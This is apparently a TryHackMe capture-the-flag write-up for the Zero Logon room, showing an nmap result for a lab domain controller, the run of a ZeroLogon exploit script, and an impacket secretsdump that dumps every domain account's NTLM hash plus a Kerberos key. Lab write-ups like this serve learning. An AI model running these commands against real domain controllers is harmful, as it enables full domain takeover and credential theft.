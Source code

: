 ```
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-10-30T14:24:37
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 282.92 seconds
```

1. What is the NetBIOS name of the Domain Controller?

`DC01`

2. What is the NetBIOS domain name of the network?

`HOLOLIVE`

3. What domain are you attacking?

`hololive.local`

4. What is the Local Administrator's NTLM hash?

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/Zero Logon$ python3 zeroLogon-NullPass.py DC01 10.10.162.183

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  
Performing authentication attempts...
Failure to Autheticate at attempt number: 148
Zero Logon successfully exploited, changing password.
```

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/ZeroLogon$ ./impacketEnv/bin/secretsdump.py -just-dc -no-pass DC01\$@10.10.162.183
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
```